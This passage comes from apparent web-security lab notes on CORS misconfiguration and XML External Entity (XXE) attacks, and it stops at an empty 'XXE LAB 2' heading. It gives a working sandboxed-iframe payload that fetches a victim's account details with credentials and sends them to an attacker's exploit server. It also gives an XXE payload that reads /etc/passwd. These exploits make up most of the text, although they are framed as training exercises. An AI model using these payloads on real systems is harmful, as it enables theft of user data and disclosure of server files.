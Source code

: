 ### CORS LAB 2

Origin header value can be null, and the server can accept that in the following conditions:

```

    Origins whose scheme is not one of http, https, ftp, ws, wss, or gopher (including blob, file and data).
    Cross-origin images and media data, including that in <img>, <video> and <audio> elements.
    Documents created programmatically using createDocument(), generated from a data: URL, or that do not have a creator browsing context.
    Redirects across origins.
    iframes with a sandbox attribute that doesn't contain the value allow-same-origin.
    Responses that are network errors.
    
```

So, in our case, we craft a sandboxed iframe payload.

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','$url/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>

```
Replace $url with the unique lab url.

Replace $exploit-server-url with the unique exploit server url.

## XXE

XML External Entity allows an attacker to interfere with application's processing of XML data. It can alllow to view files, interact with systems the app is able to access. It might be leveraged for SSRF.

### XXE LAB 1

It's fairly simple. Whilst checking the stock of a product, the client queries the server with XML. Thus:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

```

### XXE LAB 2
